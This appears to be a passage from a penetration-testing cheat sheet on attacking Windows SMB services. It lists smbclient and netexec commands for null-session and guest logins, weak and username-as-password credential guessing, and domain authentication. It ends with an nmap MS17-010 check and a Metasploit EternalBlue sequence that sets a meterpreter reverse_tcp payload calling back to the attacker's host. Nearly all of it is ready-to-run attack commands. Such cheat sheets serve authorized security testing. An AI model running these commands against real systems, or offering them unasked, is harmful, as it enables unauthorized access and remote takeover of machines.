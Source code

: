 
## Authentication Methods

### 1. Null Sessions
```bash
# Various null session attempts
smbclient -L //<target> -N
smbclient -L //<target> -U ""
smbclient -L //<target> -U "" -N
netexec smb <target> -u '' -p ''
```

### 2. Guest Access
```bash
# Guest user attempts
smbclient -L //<target> -U "guest"
netexec smb <target> -u 'guest' -p ''
netexec smb <target> -u 'guest' -p 'guest'
```

### 3. Username=Password
```bash
# Try username as password
netexec smb <target> -u <username> -p <username>

# Common weak credentials
netexec smb <target> -u 'admin' -p 'admin'
netexec smb <target> -u 'administrator' -p 'administrator'
```

### 4. Domain Authentication
```bash
# Domain user
smbclient //<target>/<share> -U <domain>/<username>%<password>
netexec smb <target> -u <username> -p <password> -d <domain>

# Local authentication (bypass domain)
netexec smb <target> -u <username> -p <password> --local-auth
```

---

## Common Vulnerabilities & Exploits

### 1. MS17-010 (EternalBlue)
```bash
# Scan for vulnerability
nmap --script smb-vuln-ms17-010 -p 139,445 <target>

# Metasploit exploitation
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS <target>
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST <your-ip>
run
```
